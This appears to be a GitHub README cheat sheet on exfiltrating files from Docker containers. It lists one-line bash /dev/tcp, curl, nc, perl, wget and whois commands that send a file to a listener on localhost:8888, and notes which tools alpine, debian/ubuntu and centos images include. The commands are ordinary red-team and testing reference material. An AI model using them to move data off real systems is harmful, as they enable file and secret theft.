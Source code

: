 # Docker image-based file exfiltration

The following collection strives to offer accessible
methodologies for extracting files from widely
utilized Docker images.
It is important to note that these methods should
not be employed for any illicit or unauthorized purposes,
but rather for legitimate applications such as network
connectivity testing and related evaluations.

```bash
# start the container (with host network)
docker run -it --network="host" <image> sh

# start a nc tcp listener on the host
nc -nvlp 8888 > example
```

## Resources

- [0xffsec.com](https://0xffsec.com/handbook/exfiltration/)
- [Hacking Articles](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)
- [GTFOBins](https://gtfobins.github.io)

## Exfiltrate possibilities

- bash
- curl
- nc / netcat
- perl
- wget
- whois

**bash**

```bash
bash -c 'echo -e "POST / HTTP/0.9\n\n$(<example.txt)" > /dev/tcp/localhost/8888'
```

**curl:**

```bash
curl -X POST -d @example.txt localhost:8888
```

**nc / netcat:**

```bash
# exfiltrate via tcp
nc localhost 8888 < example.txt
```

**perl**

```bash
perl -MIO::Socket::INET -e '$c=new IO::Socket::INET(PeerAddr,"localhost:8888");open(F,"example.txt");print $c $_ while(<F>);close(F);$c->close();'
```

**wget:**

```bash
wget --post-file=example.txt localhost:8888
```

**whois:**

```bash
whois -h localhost -p 8888 `cat example.txt`
```

## alpine

- nc
- wget
- whois

## debian & ubuntu

- bash
- perl

## centos

- bash
- curl
